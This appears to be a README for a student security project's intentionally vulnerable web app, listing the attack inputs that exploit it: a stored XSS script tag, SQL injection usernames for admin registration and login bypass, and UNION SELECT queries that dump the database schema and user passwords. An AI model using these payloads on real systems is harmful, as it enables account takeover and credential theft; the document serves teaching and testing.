 # Computer Security Project

## This is the unsecure version

### Commands

#### stored XSS on section 4

Create a new client with the name `<script>alert(1)</script>`

#### sqli on section 1

Regitering a new user with this username `hacker', 'hacker@mail.com', true, true) RETURNING \* --` will give it admin privilages

#### sqli on section 3

Trying to login in with the username `a'or 1=1--` and a random password, will log us in as the first user in the database, which in our case is admin

#### sqli on section 4

All the following queries are on the filter field

To get list of tables and columns in each one:
`fsda' UNION SELECT tbl_name,sql,3,4 FROM sqlite_schema WHERE type='table'--`

To get the users database:
`fsda' UNION SELECT username,password,is_superuser,4 FROM website_user --`
